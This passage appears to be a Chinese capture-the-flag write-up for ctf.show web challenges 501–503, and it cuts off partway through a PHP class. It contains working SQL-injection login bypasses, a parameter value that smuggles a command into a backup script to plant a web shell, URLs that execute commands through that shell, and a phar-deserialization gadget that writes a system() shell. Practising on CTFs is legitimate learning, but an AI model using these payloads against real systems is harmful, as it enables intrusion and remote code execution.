 ```
http://d637394f-6b04-420b-9152-c25ea72db54a.challenge.ctf.show:8080/backup/1.php?1=cat%20/flag_bei_ni_fa_xian_le
```

# web501

首先老规矩登录

```
http://d637394f-6b04-420b-9152-c25ea72db54a.challenge.ctf.show:8080/index.php?action=check

username=1' union select group_concat(username),group_concat(nickname),group_concat(avatar) from user%23
```

admin_db_backup页面

```
	if(preg_match('/^zip|tar|sql$/', $db_format)){
```

和上一题一样只需要格式为1.zip.php即可

# web502

首先老规矩登录

```
http://d637394f-6b04-420b-9152-c25ea72db54a.challenge.ctf.show:8080/index.php?action=check

username=1' union select username,nickname,avatar from user%23
```



利用了shell_exec的一个小特性绕过

```
http://55b7e745-7140-4c7f-8065-00f0116137bf.challenge.ctf.show:8080/api/admin_db_backup.php
db_format=zip&pre=/var/www/html/cache/3.php;
```

```
http://55b7e745-7140-4c7f-8065-00f0116137bf.challenge.ctf.show:8080/cache/3.php?1=cat%20/flag_bei_ni_fa_xian_le
```



# web503

在admin_upload.php存在文件上传，因为只能上传php，结合admin_db_backup.php有个file_exists得到应该是phar反序列化

```
<?php
class db{
    
    public $log;
    public $sql;
    public function __construct(){
        $this->log=new dbLog();
        $this->sql = "<?php system($_GET[1]);?>"
    }

    public function __destruct(){
        $this->log->log($this->sql);
    }
}
class dbLog{
```